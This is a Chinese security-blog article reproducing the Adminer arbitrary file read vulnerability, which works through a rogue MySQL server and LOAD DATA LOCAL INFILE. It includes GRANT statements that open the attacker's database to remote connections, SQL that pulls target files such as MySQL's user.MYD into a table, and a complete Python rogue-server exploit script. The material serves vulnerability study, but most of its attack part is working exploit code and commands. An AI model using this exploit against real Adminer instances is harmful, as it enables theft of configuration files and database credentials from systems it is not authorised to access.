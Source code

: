 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/N7oMF7HxBlKSA7ktV-aykw)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 前言**  

Adminer 是一款轻量级的 Web 端数据库管理工具，支持 MSSQL、MSSQL、Oracle、SQLite、PostgreSQL 等众多主流数据库，类似于 phpMyAdmin 的 MySQL 管理客户端，整个程序只有一个 PHP 文件，易于使用安装，支持连接远程数据库，https://github.com/vrana/adminer 。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHagLhsiab0VNXPSqCTW93goHQZrhlGJ7Wvuys0zR8v3P5KhPy8EjvEqQ/640?wx_fmt=png)

  

**0x02 漏洞原理**

Adminer 任意文件读取漏洞其实来源于 MySQL“LOAD DATA INFILE” 安全问题，原理可参考先知社区 @mntn 写的 “通过 MySQL LOAD DATA 特性来达到任意文件读取”，Adminer4.6.3 版本中已经修复了 LOAD DATA LOCAL INFILE 问题。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHK9TLaibGj2iaATcxuQTjS7OvicF6YQOfGf7df9OnSibvOiaibvSrPdvf3uBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHsUTX5LtxnvL52UN0yATx5iaiczHEfAa65e3WewBr8kPt2JLZfr3auia6A/640?wx_fmt=png)

****0x03 漏洞复现****

将我们攻击机的 MySQL 开启外链，然后执行 EXP 去读取一个不存在的文件让其报错得到绝对路径，最后再去读取数据库配置等指定文件即可，这里我随便读取的一个文件用于测试。

```
grant all privileges on \*.\* to 'root'@'%' identified by 'root' with grant option;
grant all privileges on \*.\* to 'root'@'%';    //MySQL8开启外链
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkH1WWLegNLBoGJqkY8TftWl0FRetTUJJwv1L0OgrCpVuqic8uDVs13Sicg/640?wx_fmt=png)

Adminer 连接攻击机 MySQL 数据库时的用户名、密码及数据库名可以随意输入，只要服务器 IP 对即可。

```
root@kali:/tmp# python mysql\_client.py "D:\\phpStudy\\PHPTutorial\\WWW\\av\\1.php"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHn8QXicFTLQjJX0p1o1ic53TY88flTvekaib1anag7WA88gmbibflbhuQKA/640?wx_fmt=png)

也可以在我们攻击机的 MySQL 创建一个新的数据库和表，然后在 Adminer 填入攻击机的 MySQL 服务器 IP、用户名、密码和刚创建的数据库名。

```
create database adminer;                //创建adminer数据库
use adminer;                            //进入adminer数据库
create table test(text text(4096));     //创建test数据表
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHFJibnjGdHtTNlhK1yreiaRWyVPx8aEvuibbhtMVPrs2AMOxiazqbp8Mv9A/640?wx_fmt=png)

执行以下 SQL 语句即可读取指定文件并将读取到的文件内容写入到刚创建的数据表里，不过得注意一下目标机的 secure\_file\_priv 选项，当它的值为 null 时就会读取不了文件了。

```
load data local infile "D:\\\\phpStudy\\\\PHPTutorial\\\\MySQL\\\\data\\\\mysql\\\\user.MYD" into table test FIELDS TERMINATED BY '\\n';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkH1UicvPial4hf0r1IISUEOj25AXKJfyTNdKiarRdCnZFwOyB2w7Lx6YtIw/640?wx_fmt=png)

```
select \* from test;        //查看test表内容
truncate table test;       //清空test表内容
drop database adminer;     //删除adminer数据库
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHRvWNjUWicgmwSN9rl3k0UTDry9Wf5vcasGJRUuVd43Nsl14gnvlR6GQ/640?wx_fmt=png)

**0x04 利用程序**

```
#coding=utf-8 
import socket
import logging
import sys
logging.basicConfig(level=logging.DEBUG)

filename=sys.argv\[1\]
sv=socket.socket()
sv.setsockopt(1,2,1)
sv.bind(("",3306))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\\x4a\\x00\\x00\\x00\\x0a\\x35\\x2e\\x35\\x2e\\x35\\x33\\x00\\x17\\x00\\x00\\x00\\x6e\\x7a\\x3b\\x54\\x76\\x73\\x61\\x6a\\x00\\xff\\xf7\\x21\\x02\\x00\\x0f\\x80\\x15\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x70\\x76\\x21\\x3d\\x50\\x5c\\x5a\\x32\\x2a\\x7a\\x49\\x3f\\x00\\x6d\\x79\\x73\\x71\\x6c\\x5f\\x6e\\x61\\x74\\x69\\x76\\x65\\x5f\\x70\\x61\\x73\\x73\\x77\\x6f\\x72\\x64\\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\\x07\\x00\\x00\\x02\\x00\\x00\\x00\\x02\\x00\\x00\\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\\x00\\x00\\x01\\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

****0x05** **参考链接****

*   https://xz.aliyun.com/t/3973
    
*   https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html
    

**【推荐书籍】**
